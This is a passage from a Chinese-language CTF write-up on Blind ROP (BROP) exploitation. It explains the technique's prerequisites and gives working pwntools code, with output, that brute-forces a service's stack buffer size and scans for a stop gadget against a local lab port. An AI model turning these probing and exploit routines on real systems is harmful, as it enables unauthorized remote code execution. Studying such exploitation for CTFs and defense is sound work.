 ```bash
        fi
done
```
在一个单独的 shell 中运行它，这样我们就简单模拟出了比赛时的环境，即仅提供 ip 和端口。（不停地断开重连特别耗CPU，建议在服务器上跑）


## BROP 原理及题目解析
BROP 即 Blind ROP，需要我们在无法获得二进制文件的情况下，通过 ROP 进行远程攻击，劫持该应用程序的控制流，可用于开启了 ASLR、NX 和栈 canary 的 64-bit Linux。这一概念是是在 2014 年提出的，论文和幻灯片在参考资料中。

实现这一攻击有两个必要条件：
1. 目标程序存在一个栈溢出漏洞，并且我们知道怎样去触发它
2. 目标进程在崩溃后会立即重启，并且重启后进程被加载的地址不变，这样即使目标机器开启了 ASLR 也没有影响。

下面我们结合题目来讲一讲。


## 漏洞利用
#### 栈溢出
首先是要找到栈溢出的漏洞，老办法从 1 个字符开始，暴力枚举，直到它崩溃。
```python
def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size
```
```
[*] buffer size: 72
```
要注意的是，崩溃意味着我们覆盖到了返回地址，所以缓冲区应该是发送的字符数减一，即 buf(64)+ebp(8)=72。该题并没有开启 canary，所以跳过爆破的过程。

#### stop gadget
在寻找通用 gadget 之前，我们需要一个 stop gadget。一般情况下，当我们把返回地址覆盖后，程序有很大的几率会挂掉，因为所覆盖的地址可能并不是合法的，所以我们需要一个能够使程序正常返回的地址，称作 stop gadget，这一步至关重要。stop gadget 可能不止一个，这里我们之间返回找到的第一个好了：
```python
def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
```